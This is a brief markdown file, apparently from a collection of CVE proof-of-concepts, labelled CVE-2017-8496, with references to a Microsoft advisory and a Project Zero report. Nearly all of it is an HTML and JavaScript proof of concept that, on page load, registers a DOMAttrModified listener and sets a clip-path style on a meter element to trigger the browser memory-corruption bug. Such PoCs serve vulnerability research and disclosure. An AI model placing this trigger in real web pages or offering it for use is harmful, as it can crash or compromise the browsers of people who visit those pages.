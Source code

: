 # CVE-2017-8496

## PoC

```html
<script>
function go() {
  window.addEventListener("DOMAttrModified", undefined);
  m.style.cssText = "clip-path: url(#foo);";
}
</script>
<body onload=go()>
<meter id="m" value="a" frame="below">
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-8496)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1254)
